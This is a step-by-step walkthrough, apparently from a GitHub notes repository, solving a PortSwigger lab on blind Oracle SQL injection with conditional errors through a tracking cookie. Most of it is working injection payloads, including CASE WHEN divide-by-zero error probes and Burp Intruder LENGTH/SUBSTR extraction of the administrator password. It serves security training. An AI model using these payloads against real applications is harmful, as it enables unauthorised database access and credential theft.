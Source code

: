 # Blind SQL injection with conditional errors

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

#blind_sql #oracle_database

**NOTE:** SQL CASE

![screnshot](./images/lab12_1.png)

![screnshot](./images/lab12_2.png)

step 1

Since this lab is conditional error
so we have to focus on TrackingId
go to proxy
URL encoded Format
http history
URL encoded Format
select any Request
URL encoded Format
then send to repeater

![screnshot](./images/lab12_3.png)

step 2

add `'` just after TrackingId

```sql
TrackingId=eXEM2vNsn8D3g49m'
```

![screnshot](./images/lab12_4.png)

step 3

add `''`

```sql
TrackingId=eXEM2vNsn8D3g49m''
```

![screnshot](./images/lab12_5.png)

step 4

add `'||(SELECT '')||'`
URL Encoded (CTRL + u ) `'||(SELECT+'')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+'')||'
```

you will get 500 Internal Sever Error it means database don't support such query

![screnshot](./images/lab12_6.png)

step 5

**NOTE:** `From dual` used for `oracle`
add 
`'||(SELECT '' FROM DUAL)||'`
URL encoded Format
`'||(SELECT+''+FROM+DUAL)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+DUAL)||'
```

![screnshot](./images/lab12_7.png)

step 6

find any table which doesn't exist
add 
`'||(SELECT '' FROM any_table)||'`
URL encoded Format
`'||(SELECT+''+FROM+any_table)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+any_table)||'
```

![screnshot](./images/lab12_8.png)

step 7

To verify users table exist send this query

**NOTE:** ROWNUM =1 will prevent to return more than one row otherwise you will get error
add 
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

URL encoded Format
`'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'
```

you will get 200 ok response

![screnshot](./images/lab12_9.png)

step 8

test exploit
**NOTE:** expression contains a divide-by-zero _(1/0)_ , which causes an error

add
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```

Here 1 = 1 is true then 1/0 which create error so you will get Internal Server Error which means exploit work well

![screnshot](./images/lab12_10.png)

step 9

test exploit
`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'
```

Here 1=2 is false then query become `'||(SELECT '' FROM DUAL)||'` which give 200 response

![screnshot](./images/lab12_11.png)

step 10

test exploit for username administrator
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

Here 1 = 1 is true then 1/0 which create error so you will get Internal Server Error which means exploit work well

![screnshot](./images/lab12_12.png)

step 11

test exploit for Password Length
`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](./images/lab12_13.png)

step 12

use Intruder to find out length of password
`'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](./images/lab12_14.png)

payload position,Grep Match and after attack result shows 20 length of password
![screnshot](./images/lab12_15.png)

step 13

test exploit for password first alphabet containing a
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,1,1)%3d'a'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

Here you get 200 ok it means a is not first alphabet password

![screnshot](./images/lab12_16.png)

step 14

use intruder to find out password
`'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

URL encoded Format
`'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`

```sql
TrackingId=eXEM2vNsn8D3g49m'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)%3d'§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'
```

![screnshot](./images/lab12_17.png)

here payload 1, payload 2 and Grep Match
![screnshot](./images/lab12_18.png)

final result after attacking
![screnshot](./images/lab12_19.png)

note down each alphabet and digit from payload 2 according to payload 1
like 1 is o and 20 is 6
`o9z230ft5zxkrhh3k3c6`

step 15

To solve the lab enter administrator as username and `o9z230ft5zxkrhh3k3c6` as password

![screnshot](./images/lab12_20.png)
